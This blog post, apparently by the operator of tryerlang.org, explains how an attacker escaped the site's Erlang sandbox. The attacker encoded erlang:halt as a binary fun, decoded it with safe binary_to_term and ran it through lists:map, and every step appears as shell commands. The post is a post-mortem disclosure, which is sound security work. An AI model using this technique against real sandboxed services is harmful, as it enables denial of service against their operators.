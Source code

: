 ```yaml
---
layout: post
title: "How they tried to fool tryerlang.org"
date: 2010-10-14 00:00
categories: [erlang, hacking, restrictions, sandbox, tryerlang]
comments: true
---
```


<h2>Preface</h2>

<a title="tryerlang.org" href="http://tryerlang.org" target="_blank">tryerlang.org</a> is an _interactive Erlang Shell_ which allows users to try the power of Erlang directly in a browser, without requiring them to install an Erlang runtime system on their machine. Even if intended for Erlang newbies, tryerlang.org has been subjected to a countless number of attacks conducted by Erlang experts who wanted to circumvent its sandboxing mechanism and to bring down the Erlang node running the application. I must admit that going through the tryerlang.org's logs is being an highly interesting and constructive experience.

In this blog post I will present one of the most elaborated attacks performed on tryerlang.org. The attack, which exploits the Erlang _External Term Representation_, has been performed by a former <a href="http://www.erlang-solutions.com" target="_blank">Erlang Solutions</a>' employee who had access to the tryerlang.org source code. To understand how the attack works, we need to introduce the Erlang _External Term Representation_.

<h2>External Term Representation</h2>

In Distributed Erlang, terms can be transferred from an Erlang node to another one using the so-called _binary_ format. Generic terms are encoded in binary from the sender using the built-in function <code>term_to_binary/1</code> and restored from the receiver using the complementary function <code>binary_to_term/2</code>. A binary message looks like this:

<pre>
<<131,100,0,6,112,105,103,101,111,110>>
</pre>

Which, as you can see, represents the binary encoding of the atom <code>pigeon</code>.

<pre>
1&gt; term_to_binary(pigeon).
&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;
2&gt; binary_to_term(&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;).
pigeon
</pre>

The _External Term Representation_ of Erlang terms is extensively documented in <a title="Erlang External Term Representation" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html" target="_blank">the official Erlang Documentation</a>. Let's see how the attacker used this concept in his own interest.

<h2>Halting the Erlang Node</h2>

To stop the Erlang node running tryerlang.org, the attacker tries at first the following command:

<pre>
&gt; erlang:halt().
</pre>

This function, documented <a title="Erlang Halt" href="http://www.erlang.org/doc/man/erlang.html#halt-0" target="_blank">here</a>, is supposed to _halt_ an Erlang runtime system, indicating a normal exit to the calling environment. The function has been disabled in tryerlang.org for security reasons, so the only result the user get is the following annoying message:

<pre>
"This functionality has been disabled for security reasons in tryerlang.org.".
</pre>

So, the Erlang node is still up and attacker prepares himself a good cup of Swedish coffee. After a couple of minutes playing with the tryerlang.org shell, the attcker notices that tryerlang.org allows you to define custom <a title="Erlang Funs" href="http://www.erlang.org/doc/programming_examples/funs.html" target="_blank">funs</a>. Then, the intuition. A _fun_, as any other Erlang term, <a title="export_ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id83276" target="_blank">can be encoded using the External Terms Representation</a>. The encoded fun could then be executed. This could hopefully fool the sandboxing mechanism protecting the tryerlang.org and could open a world of possibilities to the attacker.

According to the documentation, the external representation of the fun (in the <code>fun M:F/A</code> format) is the following:

<pre>
113 | Module | Function | Arity
</pre>

Where <code>Module</code> and <code>Function</code> are atoms and <code>Arity</code> is an integer.

Atoms themselves can be encoded using the <a title="atom ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#ATOM_EXT" target="_blank">ATOM_EXT</a> format:

<pre>
100 | Len | AtomName
</pre>

Where <code>Len</code> is the length of <code>AtomName</code>, expressed using two bytes.

For the atom <code>erlang</code>, which is composed of 6 characters (the letters <code>e</code>, <code>r</code>, <code>l</code>, <code>a</code>, <code>n</code> and <code>g</code>) we obtain:

<pre>
100 | 0, 6 | 101, 114, 108, 97, 110, 103
</pre>

Where the integers in the third section are the ASCII codes for each of the letters composing the word "erlang".

Applying the same reasoning to the atom <code>halt</code>, we obtain:

<pre>
100 | 0, 4 | 104, 97, 108, 116
</pre>

Finally, the arity (an integer) can be encoded using the <a title="small integer ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id80902" target="_blank">SMALL_INTEGER_EXT</a> format:

<pre>
97 | Int
</pre>

So, in our case (arity = 0) we obtain:

<pre>
97 | 0
</pre>

Putting all the pieces together and considering that, in the External Term Representation, the byte <code>131</code> needs to be prepended to the final term, we can encode the <code>erlang:halt/</code>0 function into binary, obtaining:

<pre>
&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;
</pre>

Let's verify that we didn't do any mistake:

<pre>
&gt; binary_to_term(&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;).
&gt; #Fun&lt;erlang.halt.0&gt;
</pre>

Since tryerlang.org doesn't support copy-and-paste from the clipboard, we need to insert the sequence above by hand.

We can bind the binary to a new variable:
<pre>
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;.
</pre>

We now need to convert the binary into an Erlang term. Originally, tryerlang.org was allowing <a title="Erlang Safe Binary To Term" href="http://www.erlang.org/doc/man/erlang.html#binary_to_term-2" target="_blank">the binary_to_term function in safe mode</a>. This function has been now completely disabled after this attack. If you want to try what follows you will need to do it in your own Erlang shell.

<pre>
&gt; F = binary_to_term(B, [safe]).
</pre>

Let's now try to launch the fun as:

<pre>
&gt;F().
</pre>

Well, that didn't work as expected. tryerlang.org actually realized that the <code>erlang:halt/0</code> function was going to be called and the sandboxing mechanism managed to block the execution of the command. We need to do something slightly different. For example, we might pass the newly defined fun as an argument (after all, Erlang is a functional language) to a function who would take care of executing it. As an example, we could use the library function <code>lists:map/2</code>. There's only a little tiny problem with that. The <code>list:map/2</code> function, in fact, requires that the fun passed as an argument receives _exactly one argument_. This is not the case of the <code>erlang:halt/0</code> function, which has arity equal to zero. Fortunately <a href="http://www.erlang.org/doc/man/erlang.html#halt-1" target="_blank">an alternative version of <code>erlang:halt/0</code> exists, taking exactly one argument</a>. The external representation for the new function differs from the previous one by only the very last byte. Let's _forget_ the old value of the variable <code>B</code> and let's bind it to the new binary:

<pre>
&gt; f(B).
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,1&gt;&gt;.
</pre>

We can now pass the new fun as an argument to the <code>lists:map</code> function:

<pre>
&gt; f(F).
&gt; F = binary_to_term(B, [safe]).
&gt;lists:map(F, [0]).
</pre>

And the node dies. Well, in reality the node is almost immediately brought back by <a title="Erlang Heart" href="http://www.erlang.org/doc/man/heart.html" target="_blank">heart</a> which is listening for heartbeats from the Erlang node itself but, hey, I have to pay a beer to this guy! :)

I wanted to share this experience with all of you. I consider it highly constructive, since it leads to reflect on several aspects of Erlang. Comments and feedback are more than welcome.
